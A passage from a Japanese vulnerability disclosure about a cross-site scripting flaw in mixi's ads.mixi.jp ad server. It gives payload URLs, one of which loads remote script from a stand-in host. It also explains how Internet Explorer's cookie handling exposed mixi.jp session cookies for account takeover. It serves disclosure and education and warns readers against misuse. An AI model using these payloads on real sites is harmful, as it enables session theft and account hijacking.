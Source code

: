 　今回の脆弱性は罠のページ内に小さなiframeを設けることなどで被害者が気づ
かないうちにCookieを盗むことが可能なものだ。標的が不特定多数のユーザの場
合、あるいは特定のユーザの場合が考えられるが、どちらのケースでも攻撃者は
罠のページをあらかじめ設置しておき、そこへのリンクを掲示板やメールなどに
埋め込んで標的を誘い出すことになるだろう。


### 0x03 脆弱性が存在する箇所

　脆弱性はhttp://mixi.jp/home.plから呼び出されるhttp://ads.mixi.jp/jserv
er/***（***の部分は任意の文字列）に存在する。例えばURLがhttp://ads.mixi.
jp/jserver/hogeの場合、HTTPレスポンスのボディ部は次のようになる。

\-\-\-\-\-
document.writeln("<A HREF\=\"http://ads.mixi.jp/ADCLICK/CID\=fffffffcfffffffcfffffffc/hoge\" TARGET\=\"_blank\">");
document.writeln("<IMG SRC\=\"http://img.ads.mixi.jp/AE3.gif?A\" ALT\=\"\" BORDER\=\"0\"></A>");
document.close();
\-\-\-\-\-

　内容からわかるとおり、このレスポンスはJavaScriptである。このコンテンツ
は<script src\=url>の形で呼び出されることを想定しているものと思われる。

　URLを次のようにすることでスクリプトが実行可能であり、これがクロスサイト
スクリプティング脆弱性であることが確認される。

\-\-\-\-\-
http://ads.mixi.jp/jserver/</a><script>alert('xss');</script>
\-\-\-\-\-

　さらに次のようにすることで、ウェブ上においた（サイズが大きい）JavaScri
ptを実行できる。

\-\-\-\-\-
http://ads.mixi.jp/jserver/</a><script src\=http://www.example.com/foo.js></script>
\-\-\-\-\-


### 0x04 アカウントの乗っ取り

　脆弱性が存在するホストは「ads.mixi.jp」である。つまり、これはmixiでの多
くのアプリケーションが動作するホスト「mixi.jp」とは別のホストである。

　mixiではログインする際にCookieが発行されるが、このときdomain属性の指定
はない。FireFoxやOperaではこのようなdomain属性の指定がないCookieは「その
ホストのみ」のものであると認識し、サブドメインを持つホスト（「ads.mixi.j
p」など）にはこのCookieを送出せず、JavaScriptでのアクセスも禁じている。し
かしIEは仕様が異なり、サブドメインを持つホストにもCookieを送出し、JavaSc
riptでもアクセスが可能である。つまり、「ads.mixi.jp」上でdocument.cookie
を読みとると、mixi.jpのCookieの内容にそのままアクセスできてしまうのである。

　読みとったCookieを使ってmixiにアクセスすることで、アカウントの乗っ取り
が可能となってしまう。このときパスワードが必要な操作をのぞくすべての機能
が可能となる（ただし、仮にこのようなアクセスが行われた場合、明らかな不正
アクセス法違反であろうと思われる。そのため、もしも読者が別の箇所にクロス
サイトスクリプティング脆弱性を発見した場合でも、このようなアクセスはして
はならない）。
